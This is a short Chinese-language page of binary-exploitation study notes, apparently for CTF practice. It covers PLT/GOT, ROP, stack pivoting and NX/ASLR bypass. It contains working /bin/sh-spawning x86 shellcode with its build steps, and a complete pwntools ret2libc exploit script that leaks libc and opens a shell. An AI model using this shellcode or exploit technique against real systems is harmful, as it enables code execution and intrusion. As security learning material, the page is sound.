

Basic
一些资源¶
http://shell-storm.org http://shell-storm.org/shellcode/ https://www.exploit-db.com https://www.exploit-db.com/shellcode/
plt got .plt.got¶

 plt 指向got,采用延时绑定。printf函数中，0x404c010实际内容是下一条指令
plt 指向got,采用延时绑定。printf函数中，0x404c010实际内容是下一条指令push 0,
而plt.got是已经绑定的， puts函数的0x804bff4是指向实际puts函数的
shellcode¶
jmp sh run: pop ebx mov BYTE[ebx+7],0 ;append 0 to /bin/sh xor eax,eax mov al,11 xor ecx,ecx xor edx,edx int 0x80 sh: call run db "/bin/sh"
linux 下
- 使用nasm [sourcecode] -o [target] -felf32编译一个汇编文件
- 使用objcopy -O binary [source.out] [target]提取 shellcode的。
- 使用xxd -i [target]将上述shellcode转为char数组
ROP¶
- ROPgadget 得到代码片断
- cd80c3 就是int0x80;ret,s使用
ROPgadget --binary {binaryname} --opcode cd80c3来寻找 - 动态链接找不到 int 0x80,需要构造rop
from pwn import * r=process('ret2lib') puts_got_plt = 0x804a01c puts_offset =0x00069930 r.recvuntil(':') r.sendline(str(puts_got_plt)) r.recvuntil(': ') libc_base=int(r.recvline(keepends=False),16)-puts_offset # get libc base address print hex(libc_base) gets_off=0x000690d0 # objdump -D libc |grep gets@ system_off= 0x0003e8f0 # objdump -D libc |grep system@ gets = libc_base+gets_off system = libc_base+system_off buf=0x804b000 -30 # cat /proc/702/maps to get writable address rop=[ gets, system, buf, buf ] r.recvuntil(":") r.sendline('a'*60+flat(rop)) r.sendline("/bin/sh\x00") r.interactive()
寄存器赋值¶
构造栈结构
*(pop eax ;ret) 3
栈转移¶
寻找 leave;ret;指令，然后更改ebp的值即可 leave= mov esp,ebp,pop ebp;
漏洞挖掘方法¶
- 现成CMS注意DIFF
- 根据漏洞PATCH
- 根据漏洞写出EXP，发动攻击
保护¶
NX:DEP 栈不可执行，可执行不可写 ROP绕过 ALSR: 把每次载入的函数地址随机化，利用puts/printf 等leak出libc的实际地址
打开就退出了¶
用strace分析系统调用
本页面的全部内容在 CC BY-NC-SA 4.0 协议之条款下提供，附加条款亦可能应用。